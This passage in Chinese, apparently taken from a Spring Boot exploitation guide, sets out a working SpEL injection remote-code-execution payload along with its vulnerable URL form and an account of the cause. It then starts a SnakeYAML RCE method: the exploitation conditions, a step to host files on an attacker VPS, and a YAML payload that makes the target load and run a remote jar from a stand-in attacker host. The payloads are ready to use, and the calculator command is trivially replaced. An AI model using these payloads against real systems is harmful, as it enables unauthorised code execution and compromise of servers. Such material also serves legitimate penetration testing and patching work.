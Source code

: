 执行 `open -a Calculator`计算器命令

```java
${T(java.lang.Runtime).getRuntime().exec(new String(new byte[]{0x6f,0x70,0x65,0x6e,0x20,0x2d,0x61,0x20,0x43,0x61,0x6c,0x63,0x75,0x6c,0x61,0x74,0x6f,0x72}))}
```

**漏洞原理：**

1. spring boot 处理参数值出错，流程进入 `org.springframework.util.PropertyPlaceholderHelper` 类中
2. 此时 URL 中的参数值会用 `parseStringValue` 方法进行递归解析
3. 其中 `${}` 包围的内容都会被 `org.springframework.boot.autoconfigure.web.ErrorMvcAutoConfiguration` 类的 `resolvePlaceholder` 方法当作 SpEL 表达式被解析执行，造成 RCE 漏洞

**漏洞分析：**

​ [SpringBoot SpEL表达式注入漏洞-分析与复现](https://www.cnblogs.com/litlife/p/10183137.html)

**漏洞环境：**

[repository/springboot-spel-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-spel-rce)

正常访问：

```
http://127.0.0.1:9091/article?id=66
```

执行 `open -a Calculator` 命令：

```java
http://127.0.0.1:9091/article?id=${T(java.lang.Runtime).getRuntime().exec(new%20String(new%20byte[]{0x6f,0x70,0x65,0x6e,0x20,0x2d,0x61,0x20,0x43,0x61,0x6c,0x63,0x75,0x6c,0x61,0x74,0x6f,0x72}))}
```

#### 0x02：spring cloud SnakeYAML RCE

**利用条件：**

* 可以 POST 请求目标网站的 `/env` 接口设置属性
* 可以 POST 请求目标网站的 `/refresh` 接口刷新配置（存在 `spring-boot-starter-actuator` 依赖）
* 目标依赖的 `spring-cloud-starter` 版本 < 1.3.0.RELEASE
* 目标可以请求攻击者的 HTTP 服务器（请求可出外网）

**利用方法：**

**步骤一： 托管 yml 和 jar 文件**

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```

在网站根目录下放置后缀为 `yml` 的文件 `example.yml`，内容如下：

```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://your-vps-ip/example.jar"]
  ]]
]
```
